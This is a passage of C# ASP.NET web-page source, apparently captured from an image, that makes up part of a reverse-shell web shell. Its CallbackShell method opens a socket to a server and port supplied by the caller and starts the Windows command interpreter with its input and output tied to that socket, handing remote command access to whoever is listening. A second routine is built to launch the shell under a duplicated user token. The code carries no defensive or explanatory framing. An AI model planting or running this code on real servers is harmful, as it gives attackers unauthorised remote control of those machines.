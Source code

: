 ```aspx
        IntPtr lpCollectDataTimeout,
        StringBuilder lpUserName,
        int nMaxUserNameSize
        );
 
    protected void CallbackShell(string server, int port)
    {

        string request = "Spawn Shell...\n";
        Byte[] bytesSent = Encoding.ASCII.GetBytes(request);

        IntPtr oursocket = IntPtr.Zero;
        
        sockaddr_in socketinfo;
        oursocket = WSASocket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.IP, IntPtr.Zero, 0, 0);
        socketinfo = new sockaddr_in();
        socketinfo.sin_family = (short) AddressFamily.InterNetwork;
        socketinfo.sin_addr = inet_addr(server);
        socketinfo.sin_port = (short) htons((ushort)port);
        connect(oursocket, ref socketinfo, Marshal.SizeOf(socketinfo));
        send(oursocket, bytesSent, request.Length, 0);
        SpawnProcessAsPriv(oursocket);
        closesocket(oursocket);
    }

    protected void SpawnProcess(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101;
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
    }

    protected void SpawnProcessAsPriv(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101; 
        IntPtr DupeToken = new IntPtr(0);
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        if (DupeToken == IntPtr.Zero)
            retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        else
            retValue = CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
```